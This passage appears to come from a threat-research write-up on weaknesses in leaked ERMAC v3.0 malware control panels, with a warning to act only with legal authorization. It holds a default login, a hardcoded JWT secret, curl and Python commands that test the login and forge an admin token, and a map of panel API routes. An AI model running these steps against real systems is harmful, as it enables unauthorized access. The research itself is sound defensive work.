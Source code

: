 
## Operator-side weaknesses to test (only if authorized)

The ERMAC v3.0 source leak highlights several recurring misconfigurations in live panels:

- Default credentials: root / changemeplease
- Open operator self-registration (some deployments)
- JWT signed with a hardcoded HS* secret:
  - h3299xK7gdARLk85rsMyawT7K4yGbxYbkKoJo8gO3lMdl9XwJCKh2tMkdCmeeSeK
- Static admin bearer token embedded in code (varies by build)

Example checks:

```bash
# 1) Test default creds against panel login (React frontend)
curl -sk -c cookies.txt -X POST \
  -H 'Content-Type: application/json' \
  -d '{"email":"root","password":"changemeplease"}' \
  https://panel.example.com/api/v1/sign-in

# 2) Check if self-registration is open (varies per build/route)
# Look for endpoints enabling account creation without auth
# e.g., /api/v1/sign-up or misused accounts APIs

# 3) If JWT HS256 secret is in use, mint a token (POC)
python3 - <<'PY'
import jwt, time
key = 'h3299xK7gdARLk85rsMyawT7K4yGbxYbkKoJo8gO3lMdl9XwJCKh2tMkdCmeeSeK'
payload = {"sub":"1","role":"admin","iat":int(time.time()),"exp":int(time.time())+3600}
print(jwt.encode(payload, key, algorithm='HS256'))
PY
# Then hit an authenticated route with: Authorization: Bearer <token>
```

> Warning: Never access or manipulate criminal infrastructure without explicit legal authorization. Prefer coordinated disclosure/takedown with providers and LE.

---

## Useful backend routes (triage)

Observed API surface in leaked v3.0 codebase (Laravel):

- Unauthenticated:
  - POST /api/v1/sign-in
  - POST /api/v1/smartInjections/{sessionId}
  - POST /api/v1/smartInjections/session/list
  - PUT  /api/v1/smartInjections/session/{session}
- Authenticated (cookie ermac_session and/or Bearer JWT):
  - GET    /api/v1/getUserInfo
  - POST   /api/v1/injects/getInjectionsList
  - POST   /api/v1/injects/createInjection
  - DELETE /api/v1/injects/deleteInjection
  - POST   /api/v1/injects/{injection}/editInjection
  - POST   /api/v1/sendBotsCommand
  - DELETE /api/v1/deleteBot
  - DELETE /api/v1/deleteAllRemovedApp
  - PUT    /api/v1/{bot}/setBotType
  - GET    /api/v1/{bot}/commands/getCommandsList
  - PUT    /api/v1/{bot}/settings/updateBotSettings
  - PUT    /api/v1/{bot}/injects/updateBotInjections
  - DELETE /api/v1/deleteLog
  - PUT    /api/v1/editLogComment
  - POST   /api/v1/accounts/getAccountsList
  - POST   /api/v1/accounts/createAccount
  - PUT    /api/v1/accounts/{user}/editAccount
